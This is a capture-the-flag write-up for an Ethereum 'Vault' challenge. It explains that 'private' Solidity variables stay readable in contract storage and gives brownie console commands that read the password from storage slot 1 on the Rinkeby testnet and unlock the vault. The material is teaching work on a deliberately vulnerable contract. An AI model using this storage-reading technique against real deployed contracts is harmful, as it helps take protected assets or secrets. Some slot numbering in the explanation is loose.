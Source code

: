 ## Exercise 8: Vault

The aim of the vault exercise is to unlocm the vault by providing the secret password. The vulnerability is that the secret password is set in the contract's constructor and then kept in storage (i.e. publicly accessible on the blockchain). The "private" modifier only protects the variable from being accessed by other contracts, it does not keep the variable private from individuals retrieving data from the blockchain. Therefore, if we know the contract's deployment address, we can use knowledge of how data is stored on Ethereum, we can retrueve the secret password from the blockchain and pass it to the cojmntract in order to unlock the vault.

### Storage

Storage on Ethereum is 2<sup>256</sup> slots of 32 bytes each. Each individual contract deployed to the blockchain has its own storage associated with it. This is where values for its storage variables are persisted and it is tied to the contract's deployment address. The order in which variables are declared in a contract determines the order in which the data is added to storage, with space optimization achieved by allopwing multiple variables whose total size is < 32 bytes to share slots. So, if we have 4 variables: A = 3 bytes, B = 4 bytes, C = 7 bytes, and D = 25 bytes, A,B and C will all be stored in Slot 1, and D will be stored in Slot 2.

```

        SLOT 1                            SLOT 2
-------------------------------||---------------------------
A   B   C  0 0 0 0 0 0 0...    || D   0 0 0 0 0 0 0 0 0 ....

```

In the `Vault.sol` contract, the password is the second variable to be declared, after a bool. Since we know that the password is of type Bytes32, it must be int he second slot (since there is no space for it to fit in Slot 1 after a bool). Therefore, the password fills memory slot 2.

### Execution

Steps are to 1) get the password from storage; 2) pass the password as an argumenbt to `Vault.sol`'s `unlock()` function.

Start a brownie console session on Rinkeby, then:

```bash

>>> hacker = accounts.load('main')
>>> contract = Vault.at('0x62e6BF0ac588f35ADd13525F80CBe3f30d2Fa555')
# view initial lock status
>>> contract.locked()
    >>> true
# Vault.sol deployment address and 1 (second slot, indexing from zero)
>>> pw = web3.getStorageAt(contract.address,1)
    >>> HexBytes('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
>>> contract.unlock(pw, {'from': hacker})
# view new lock status
>>> contract.locked()
    >>> false
```

